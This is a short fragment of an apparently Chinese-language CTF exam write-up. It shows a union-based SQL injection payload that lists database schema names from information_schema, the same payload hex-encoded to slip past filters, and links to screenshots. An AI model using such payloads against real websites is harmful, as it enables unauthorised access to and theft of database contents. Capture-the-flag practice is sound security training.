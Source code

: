![image-20211013161708190](0927n考试CtF/image-20211013161708190.png)

查库名

`1 union select group_concat(schema_name)from information_schema.schemata`

`3120756e696f6e2073656c6563742067726f75705f636f6e63617428736368656d615f6e616d652966726f6d20696e666f726d6174696f6e5f736368656d612e736368656d617461`

![image-20210927105355671](0927考试CtF/image-20210927105355671.png)

![image-20210927105451853](0927考试CtF/image-20210927105451853.png)
